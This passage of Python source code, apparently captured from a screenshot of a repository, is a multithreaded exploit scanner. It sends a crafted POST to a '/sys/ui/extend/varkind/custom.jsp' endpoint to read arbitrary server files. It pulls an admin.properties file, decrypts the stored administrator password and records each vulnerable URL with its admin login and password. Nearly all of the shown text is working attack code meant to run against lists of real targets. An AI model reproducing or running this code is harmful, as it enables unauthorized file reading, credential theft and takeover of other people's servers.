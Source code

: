 ```python
        print(msg)
        if "failed" in msg:
            print("Init failed, Please check the environment.\n")
            os._exit(0)
        print("Init successfully")

    def parseArgs(self):
        date = time.strftime("%Y-%m-%d_%H-%M-%S", time.localtime())
        parser = ArgumentParser()
        parser.add_argument("-f", "--file", required=False, type=str, default=f"./url.txt", help=f"The url file, default is ./url.txt")
        parser.add_argument("-t", "--thread", required=False, type=int, default=32, help=f"Number of thread, default is 32")
        parser.add_argument("-T", "--timeout", required=False, type=int, default=3,  help="request timeout(default 3)")
        parser.add_argument("-o", "--output", required=False, type=str, default=date,  help="Vuln url output file, default is {date}.txt")
        return parser.parse_args()

    # 验证漏洞并导出密码
    def verify(self, url):
        repData = self.readFile(url, "/WEB-INF/KmssConfig/admin.properties")
        if "password" in repData:
            data = repData.strip()
            password = data[data.index(" = ") + 3:data.index(r"\r")]
            password = cr.decrypt(password)
            msg = f"\033[32m[+] [ Vuln ]  {url:<30}    {password}\033[0m"
            self.lock.acquire()
            try:
                self.findCount += 1
                self.vulnRULList.append([f"{url}/admin.do", password])
                print(msg)
            finally:
                self.lock.release()
        # elif "Conn" == repData:
        #     msg = f"\033[31m[!] [ Conn ]  {url}\033[0m"
        # else:
        #     msg = f"[-] [ Safe ]  {url}"
        # self.lock.acquire()
        # try:
        #     print(msg)
        # finally:
        #     self.lock.release()

    # 利用漏洞读取文件
    def readFile(self, url, filename):
        reqURL = url + "/sys/ui/extend/varkind/custom.jsp"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Content-Type": "application/x-www-form-urlencoded"
        }
        postData = 'var={"body":{"file":"' + filename + '"}}'
        try:
            rep = requests.post(url=reqURL, headers=headers, data=postData, timeout=self.args.timeout, verify=False)
            fileData = rep.text
            return fileData
        except:
            return "Conn"

    # 加载url地址
    def loadURL(self):
```